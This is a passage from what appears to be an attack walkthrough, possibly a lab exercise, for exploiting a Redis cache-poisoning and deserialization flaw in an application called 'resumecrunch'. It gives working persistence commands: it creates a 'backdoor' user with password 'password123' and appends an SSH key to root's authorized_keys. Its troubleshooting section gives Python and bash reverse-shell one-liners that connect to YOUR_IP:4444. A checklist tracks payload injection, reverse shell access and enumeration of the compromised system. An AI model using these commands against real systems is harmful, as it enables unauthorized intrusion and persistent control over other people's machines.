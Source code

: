 ### 5. Establish Persistence

```bash
# Create a backdoor user (if you have privileges)
useradd -m backdoor -s /bin/bash
echo "backdoor:password123" | chpasswd

# Add SSH key (if SSH is available)
mkdir -p /root/.ssh
echo "YOUR_SSH_PUBLIC_KEY" >> /root/.ssh/authorized_keys
```

## Verification

- [ ] Successfully identified cache poisoning vulnerability
- [ ] Created malicious payload
- [ ] Injected payload into Redis cache
- [ ] Triggered payload execution
- [ ] Obtained reverse shell
- [ ] Enumerated the compromised system
- [ ] Documented the attack chain

## Troubleshooting

### Reverse Shell Won't Connect

```bash
# Check firewall
# Try different ports (e.g., 443, 80, 8080)

# Try different reverse shell methods
# Python reverse shell:
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Bash reverse shell:
bash -i >& /dev/tcp/YOUR_IP/4444 0>&1
```

### Payload Not Executing

```bash
# Verify payload was cached
redis-cli GET "cache:key"

# Check application logs
docker logs resumecrunch-app

# Verify deserialization is happening
# Add debug output to trace execution
```
